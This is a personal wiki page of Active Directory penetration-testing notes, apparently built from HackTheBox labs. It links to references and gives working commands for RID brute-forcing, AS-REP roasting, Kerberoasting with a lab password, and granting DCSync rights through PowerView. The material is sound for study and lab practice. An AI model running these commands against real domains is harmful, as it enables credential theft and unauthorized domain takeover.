 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Enumeration
 - [Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

   **Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
   ```
   nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
   cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
   GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
   ```

# Active Directory Exploitation Strategies
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
   - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```
 - [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
   - ```gppdecrypt```
 - [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
   - GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100```
   - Requires an account user with a service principal name (SPN)

## Active Directory Tools
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
   -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - **NSE**
   - ```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
 - **SMB**
   - Enum4Linux
   - SMBMap
   - smbclient
   - smbclient.py (Impacket)
   - [NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
   - [SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
